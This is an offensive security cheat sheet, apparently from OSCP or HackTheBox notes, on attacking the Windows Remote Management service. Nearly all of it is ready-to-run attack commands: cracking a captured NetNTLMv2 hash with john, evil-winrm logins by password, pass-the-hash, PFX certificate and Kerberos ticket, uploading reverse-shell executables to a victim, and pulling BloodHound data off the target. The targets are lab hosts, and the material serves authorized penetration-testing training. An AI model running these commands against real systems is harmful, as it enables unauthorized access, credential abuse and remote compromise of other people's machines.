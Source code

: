 # (5985) WinRM

<details>

<summary>Uses</summary>

* Remotely communicate and interface with hosts

- Execute commands remotely on systems that are not local to you but are network accessible

* Monitor, manage and configure servers, operating systems and client machines from a remote location

</details>

<details>

<summary>Cracking NetNTLMv2 hashes for login</summary>

```bash
echo "Administrator::DESKTOPH3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

</details>

<details>

<summary>Evil-winrm for login</summary>

* Using password:

```bash
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

* Using hash:

```bash
evil-winrm -i 10.11.1.21 -u pete -H 0f951bc4fdc5dfcd148161420b9c6207
```

* Uploading files to Victim

```bash
upload reverse_139.exe
```

</details>

<details>

<summary>Upload/Download files (Evil-Winrm)</summary>

### Download (have to put full file paths)

```bash
download c:\temp\20230511182430_BloodHound.zip /oscp/ad/20230511182430_BloodHound.zip
```

### Upload (doesn't need full file paths)

```bash
upload reverse.exe
```

</details>

<details>

<summary>Enter-PSSession</summary>

```powershell
$Password = ConvertTo-SecureString "iydgTvmujl6f" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("cowmotors\svc_web", $password)
$session = Enter-PSSession -computername "WEB02" -credential $cred
```

</details>

<details>

<summary>Login via PFX File</summary>

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

# Since port 5986 (WinRM with SSL) is open instead of 5985 (WinRM):
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S
```

</details>

<details>

<summary>Evil-WinRM Kerberos Login</summary>

Edit /etc/krb5.conf

```bash
[libdefaults]
        default_realm = SCRM.LOCAL

[realms]
SCRM.LOCAL = {
        kdc = dc1.scrm.local
}

[domain_realm]
        .scrm.local = SCRM.LOCAL
        scrm.local = SCRM.LOCAL
```

Create ticket for MiscSvc:

```bash
impacket-getTGT scrm.local/MiscSvc:ScrambledEggs9900
```

Login via evil-winrm

```bash
export KRB5CCNAME=MiscSvc.ccache
sudo rdate -n 10.10.11.168

evil-winrm -r scrm.local -i dc1.scrm.local
```



\----OR----

```
[libdefaults]
    default_realm = ABSOLUTE.HTB
    kdc_timesync = 1
    ccache_type = 4
    forwardable = true
    proxiable = true
    fcc-mit-ticketflags = true
[realms]
    ABSOLUTE.HTB = {
        kdc = dc.absolute.htb
        admin_server = dc.absolute.htb
        default_domain = absolute.htb
    }
```

```
kinit <username>
```

```
evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB
```

</details>
